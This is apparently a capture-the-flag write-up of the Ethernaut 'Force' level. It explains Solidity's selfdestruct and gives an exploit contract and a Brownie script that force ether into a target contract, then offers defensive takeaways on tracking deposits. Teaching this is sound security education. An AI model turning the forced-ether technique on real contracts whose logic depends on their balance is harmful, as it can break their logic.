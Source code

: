 ```yaml
---
title: Ethernaut - Level 07 - Force
date: 2022-10-26
---
```

{{<figure src="../images/force-7.png" caption="Image courtesy of OpenZeppelin">}}
## Ethernaut 07 - Force
This level from  Ethernaut, Force, provides us with an empty smart contract containing only some ASCII-art. The goal here is to send some ether to the contract using  the `selfdestruct()` instruction.

```solidity
# Level 07 - Force

### Source Code

// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\\_/\\   /
    ____/ o o \\
  /~____  =ø= /
 (______)__m_m)

*/}
```

Before explaining why this smart contract is vulnerable, let's get familiarized with the function `selfdestruct()`. This low-level opcode call lets you delete a contract from the blockchain, sending all remaining ethers stored in the contract to a designated address.

Developers typically include a `selfdestruct` instruction when one of the following scenarios is present:

- **Deprecate contracts with known vulnerabilities**: Smart contracts may contain security issues or undesired behaviors that may go unnoticed at first. Developers can destroy a contract using `selfdestruct` and send forward the remaining ethers to a backup address.
- **Clean up obsolete contracts**: Mostly used as a best practice to free up storage on the Ethereum blockchain.
- **Upgrade smart contracts**: For example, the ERC-20 framework is the standard implementation for all fungible tokens on Ethereum.  Any token that does not interface with the ERC-20 standard will have difficulty interacting with other contracts.
  
  In these cases,  developers will change to a new contract instead of upgrading the current contract, using the `selfdestruct` function to extract funds from the current contract and build a new contract with the required functionalities.

For instance, using the `selfdestruct` function in the DAO attack could have resulted in a faster resolution, minimal loss of funds, and immediate protection against further exploits.

### Where is the vulnerability?

The first thing we may notice when inspecting this contract is the lack of `payable` and `callback` functions to receive ethers. As explained earlier in this post, we will only be able to hack this contract if we figure out a way to make the contract’s balance greater than 0.

This contract is all about using `selfdestruct`, which according to Solidity documentation:

> The only way to remove code from the blockchain is when a contract at that address performs the `selfdestruct` operation. The remaining ether stored at that address is sent to a designated target and then the storage and code is removed from the state.

The idea for this challenge is to create a contract with some ether and then use `selfdestruct` to destroy the current contract, this will force the contract to send its funds to the Force contract’s address.

### Hacking the contract

Our exploit will be composed by a malicious contract which declares a `public` function that executes the `selfdestruct` method and receives as parameter the address of the contract where the funds will be transferred, as shown below:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract ForceExploit {
    receive() external payable {}

    function destroy(address payable _address) public {
        selfdestruct(_address);
    }
}
```

The next piece in our attack vector will be a script that deploys this new contract, send some funds to it, and then calls the `destroy` function, providing as argument to the `_address` variable, the address assigned to the `Force` contract:

```solidity
from brownie import accounts, config, ForceExploit

def attack(exploit_contract, hacker, target):
    # First we do a transaction to our newly deployed contract
    print("Transfer to exploit contract")
    # Submit a transfer to our exploit contract
    hacker.transfer(to=exploit_contract.address, amount="0.00001 ether")
    # Destroy the contract using selfdestruct and sending the remaining funds to the given address
    exploit_contract.destroy(target, {'from': hacker})

def main(target):
    hacker = accounts.add(config['wallets']['from_key'])
    exploit_contract = ForceExploit.deploy({'from': hacker})

    attack(exploit_contract, hacker, target)
```

Executing the above script will trigger a transfer of funds from our malicious contract to the victim’s contract, successfully passing this level.

### Takeaways

This type of security vulnerabilities arises from the misuse of the `this.balance` statemeent. Contracts that depend on specific balances on their logic are prone to unexpected behavior as balances can be altered through malicious contracts that use `selfdestruct()`.

Instead, if exact values of deposited ether are required, it is recommendable to create a private variable used to safely track the deposited ether. This will avoid the contract from being susceptible to forced ether sent via a `selfdestruct()` call.

Additionally, remember that even if you have not implemented a `selfdestruct()` call, it is still possible to call it through any `delegatecall()` vulnerabilities.